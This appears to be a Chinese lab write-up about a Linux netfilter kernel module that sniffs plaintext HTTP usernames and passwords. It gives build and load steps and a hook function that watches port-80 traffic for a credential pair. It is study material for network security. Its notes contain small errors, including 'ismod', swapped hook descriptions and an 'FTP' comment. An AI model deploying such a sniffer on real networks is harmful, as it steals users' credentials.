 # 用netfilter获取http明文用户名和密码
### 实验环境：
ubuntu 18.04 kernel 4.15  

### target端的操作

源文件：nf_http.c  Makefile  
#### 1. 内核模块的操作

* 头文件 linux/kernel.h  linux/module.h
* 初始化模块（netfilter，见下）
* 编译得到.ko文件   makefile
* 加载模块 sudo ismod nf_http.ko 
* 打印10行信息 dmesg | tail  
*  展示内核模块 ls mod
*  卸载模块 sudo rmmod nf_http (注意不用.ko)

#### 2. 初始化netfilter

* 头文件 linux/netfilter.h  linux/netfilter_ipv4.h
* 钩子点结构体

    ```c
    struct nf_hook_ops {
                      struct list_head list;
                      /* 此下的值由程序员填充 */
                      nf_hookfn *hook;
                      int pf;
                      int hooknum;
                      /* Hook以升序的优先级排序 */
                      int priority;
              };
     ```
  

* PRE_ROUTING 钩子：watch_in() 检查发出去的包
* POST_ROUTING钩子：watch_out() 检查收到的包   

 ```c  
    static unsigned int watch_out(void *priv, struct sk_buff *skb,
                                            const struct nf_hook_state *state)
    {
        struct sk_buff *sb = skb;
        struct tcphdr *tcp;
        printk("post routing");
        /* Make sure this is a TCP packet first */
        if (ip_hdr(sb)->protocol != IPPROTO_TCP)
            return NF_ACCEPT; /* Nope, not TCP */
        tcp = (struct tcphdr *)((sb->data) + (ip_hdr(sb)->ihl * 4));
        /* Now check to see if it's an HTTP packet */
        if (tcp->dest != htons(80))
            return NF_ACCEPT; /* Nope, not FTP */
        //Parse the HTTP packet for relevant information if we don't already have a username and password pair. 
        if (!have_pair)
        {
            printk("check http");
            check_http(sb);
        }

        return NF_ACCEPT;
    }

 ```
  